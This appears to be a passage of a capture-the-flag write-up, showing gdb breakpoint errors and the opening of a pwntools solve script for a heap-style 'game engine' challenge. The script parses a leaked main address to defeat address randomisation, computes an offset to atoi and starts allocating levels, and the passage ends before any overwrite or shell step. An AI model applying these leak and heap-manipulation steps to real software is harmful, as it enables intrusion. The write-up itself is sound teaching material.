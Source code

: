 ```
Error in re-setting breakpoint 2: No symbol "test_level" in current context.
Error in re-setting breakpoint 3: No symbol "get_num" in current context.
```


## Full solve script

```
from pwn import *

binary = "./chall"
context.binary = binary

p = process('./chall_patched')
p = remote("chall.lac.tf", 31338)
elf = ELF(binary)
libc = ELF("./libc.so.6")


def create_level(idx):
    p.sendlineafter(b"Choice: ", b"1")
    p.sendlineafter(b"Enter level index: ", str(idx).encode())

def edit_level(data):
    p.sendlineafter(b"Choice: ", b"2")
    p.sendlineafter(b"Enter level data: ", data)

def test_level():
    p.sendlineafter(b"Choice: ", b"3")


def explore(idx):
    p.sendlineafter(b"Choice: ", b"4")
    p.sendlineafter(b"Enter level index: ", str(idx).encode())

def reset():
    p.sendlineafter(b"Choice: ", b"5")

s = '''
b *edit_level
b *test_level
#b *create_level
#b * explore
#b * create_level+231
#b * get_num
'''
#gdb.attach(p, s)

# getting the main address leak
p.recvuntil(b"Welcome to the heap-like game engine!\n")
leak = p.recvline().strip()
log.info(f"Raw leak: {leak}")
main_addr = int(leak.split(b"A welcome gift: ")[1], 16)
elf.address = main_addr - elf.sym['main']
log.info(f"Main address: {hex(main_addr)}")

atoi_addr = main_addr + 0x29d6

create_level(0)  
create_level(1) 
create_level(2) 

explore(1)
```